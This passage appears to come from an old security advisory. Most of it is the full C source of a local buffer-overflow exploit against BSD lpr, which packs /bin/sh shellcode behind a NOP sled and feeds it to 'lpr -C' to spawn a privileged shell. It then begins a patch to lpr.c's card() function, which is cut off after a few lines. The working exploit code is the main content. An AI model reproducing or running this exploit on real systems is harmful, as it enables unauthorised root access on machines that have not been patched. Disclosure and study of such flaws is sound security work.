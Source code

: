 } 
------------------------------------------- bsd_lpr_exploit.c ------ 
#include <stdio.h> 
#include <stdlib.h> 
#include <unistd.h>

#define DEFAULT_OFFSET          50 
#define BUFFER_SIZE             1023

long get_esp(void) 
{ 
   __asm__("movl %esp,%eax\n"); 
}

void main() 
{ 
   char *buff = NULL; 
   unsigned long *addr_ptr = NULL; 
   char *ptr = NULL;

   char execshell[] = 
   "\xeb\x23\x5e\x8d\x1e\x89\x5e\x0b\x31\xd2\x89\x56\x07\x89\x56\x0f" 
   "\x89\x56\x14\x88\x56\x19\x31\xc0\xb0\x3b\x8d\x4e\x0b\x89\xca\x52" 
   "\x51\x53\x50\xeb\x18\xe8\xd8\xff\xff\xff/bin/sh\x01\x01\x01\x01" 
   "\x02\x02\x02\x02\x03\x03\x03\x03\x9a\x04\x04\x04\x04\x07\x04";

   int i;

   buff = malloc(4096); 
   if(!buff) 
   { 
      printf("can't allocate memory\n"); 
      exit(0); 
   } 
   ptr = buff; 
   memset(ptr, 0x90, BUFFER_SIZE-strlen(execshell)); 
   ptr += BUFFER_SIZE-strlen(execshell); 
   for(i=0;i < strlen(execshell);i++) 
      *(ptr++) = execshell[i]; 
   addr_ptr = (long *)ptr; 
   for(i=0;i<2;i++) 
      *(addr_ptr++) = get_esp() + DEFAULT_OFFSET; 
   ptr = (char *)addr_ptr; 
   *ptr = 0; 
   execl("/usr/bin/lpr", "lpr", "-C", buff, NULL); 
} 
--------------------------------------------------------------------------

  Here is a little patch -- see file lpr.c, function card(): 
("!!" marks added lines)

-------------------------------------------------------------------------- 
static void card(c, p2) 
        register int c; 
        register char *p2; 
{ 
        char buf[BUFSIZ]; 
        register char *p1 = buf; 
        register int len = 2; 
 